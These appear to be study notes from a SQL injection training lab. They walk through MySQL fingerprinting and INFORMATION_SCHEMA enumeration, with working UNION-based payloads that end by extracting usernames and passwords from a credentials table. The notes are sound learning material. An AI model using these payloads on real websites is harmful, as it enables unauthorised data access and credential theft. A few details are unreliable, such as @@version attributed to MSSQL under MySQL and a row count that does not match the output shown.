 ## MySQL Fingerprinting
* First identify the DBMS
* When we see the web server uses `Apache` or `Nginx` it is a good guess that the web server is running on Linux, so the DBMS is likely `MySQL`
* The same also applies to Microsoft DBMS if the webserver is `IIS`, so it is likely to be `MSSQL`
* `MySQL`
	* `@@version` When we have full query output, In MSSQL it returns MSSQL version, Error with other DBMS.
	* `SELECT POW(1,1)`, When we only have numeric output, Error with other DBMS
	* `SELECT SLEEP(5)`, Blind/No Output, Will not delay response with other DBMS

## INFORMATION_SCHEMA Database
* To pull data from tables we need a proper select query
* For that we need the following information
	-   List of databases
	-   List of tables within each database
	-   List of columns within each table
- The [INFORMATION_SCHEMA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html) database contains metadata about the databases and tables present on the server
- We cannot call its tables directly with a `SELECT` statement
- To reference a table present in another DB, we can use the dot ‘`.`’ operator
- E.g. to `SELECT` a table `users` present in a database named `my_database`

```sql
SELECT * FROM my_database.users;
```

## SCHEMATA
* The table [SCHEMATA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html) in the `INFORMATION_SCHEMA` database contains information about all databases on the server

```sql
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
6 rows in set (0.01 sec)
```

**Note**: The first three databases are default MySQL databases and are present on any server, so we usually ignore them during DB enumeration. Sometimes there's a fourth 'sys' DB as well.

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

![[../../Screenshots/ports_dbs.png]]

* Find out which database the web application is running to retrieve ports data from

```sql
cn' UNION select 1,database(),2,3-- -
```

![[../../Screenshots/db_name.jpg]]

## TABLES
* We need to get a list of the tables to query them with a `SELECT` statement
* We can use the `TABLES` table in the `INFORMATION_SCHEMA` Database
	* Contains information about all tables throughout the database`
	* `TABLE_NAME` column stores table names
	* `TABLE_SCHEMA` column points to the database each table belongs to

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

## COLUMNS
* We first need to find the column names in the table, which can be found in the `COLUMNS` table in the `INFORMATION_SCHEMA` database
* `COLUMN_NAME`, `TABLE_NAME`

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

## Data
```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```

**Remember**: don't forget to use the dot operator to refer to the 'credentials' in the 'dev' database, as we are running in the 'ilfreight' database, as previously discussed.
